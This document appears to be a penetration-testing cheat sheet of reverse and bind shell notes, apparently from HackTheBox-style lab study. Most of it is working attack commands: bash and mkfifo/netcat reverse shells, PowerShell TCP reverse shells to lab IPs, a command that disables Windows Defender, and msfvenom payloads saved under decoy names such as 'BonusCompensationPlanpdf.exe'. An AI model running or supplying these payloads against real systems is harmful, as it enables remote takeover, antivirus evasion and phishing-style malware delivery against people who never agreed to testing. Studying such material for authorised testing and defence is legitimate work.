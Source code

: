 https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

One liner bash shell
```
bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"
```

How to make a fully interactive shell
```
## Python version needed for this to run properly
python3 -c 'import pty;pty.spawn("/bin/bash")' 
CTRL+Z 
stty raw 
-echo 
fg 
export TERM=xterm

#not all steps may be needed
```
# Bind Shells
## **What Is It?**

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).
### **No. 1: Server - Target starting Netcat listener**
```bash
Target@server:~$ nc -lvnp 7777
```

In this instance, the target will be our server, and the attack box will be our client. Once we hit enter, the listener is started and awaiting a connection from the client.

Back on the client (attack box), we will use nc to connect to the listener we started on the server.

### **No. 2: Client - Attack box connecting to target**
```bash
nc -nv 10.129.41.200 7777 
```
### **No. 3: Server - Target receiving connection from client**
```bash
Target@server:~$ nc -lvnp 7777
```

Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

# Reverse shell
### **Server (`attack box`)**
Reverse Shells
```bash
sudo nc -lvnp 443Listening on 0.0.0.0 443
```
## powerhsell reverse shell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('$serverip',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```

The `Windows Defender antivirus` (`AV`) software stopped the execution of the code. This is working exactly as intended, and from a `defensive` perspective, this is a `win`. From an offensive standpoint, there are some obstacles to overcome if AV is enabled on a system we are trying to connect with. For our purposes, we will want to disable the antivirus through the `Virus & threat protection settings` or by using this command in an administrative PowerShell console (right-click, run as admin):

### **Disable AV**
```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```
# One Liner
## Bash
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f

```
## Powershell
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
# crafting payloads with msfvenom
```
msfvenom -l payloads
```

## stageless
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```
